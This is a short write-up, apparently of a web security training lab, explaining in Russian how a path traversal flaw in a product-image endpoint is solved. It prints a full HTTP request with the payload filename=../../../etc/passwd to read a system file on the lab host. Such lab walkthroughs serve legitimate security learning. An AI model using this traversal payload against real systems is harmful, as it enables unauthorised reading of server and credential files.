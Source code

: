 # File path traversal, simple case
APPRENTICE

This lab contains a path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the /etc/passwd file.

## Решение
Target -> Filter: Showing all items.

Отлавливаю запрос одной из картинок. Пробую в качестве значения параметра filename подставить `/etc/passwd`, последовательно добавляя ".." в начало пути до тех пор, пока запрос не вернёт содержимое файла "/etc/passwd":
```
GET /image?filename=../../../etc/passwd HTTP/2
Host: 0a7400a6036382d98245abec005c0058.web-security-academy.net
Cookie: session=BTgywuizXrsk2shuefe5lnEgf6bzjRJ4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7400a6036382d98245abec005c0058.web-security-academy.net/
Sec-Fetch-Dest: image
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Pragma: no-cache
Cache-Control: no-cache
Te: trailers
```
Задание выполнено.
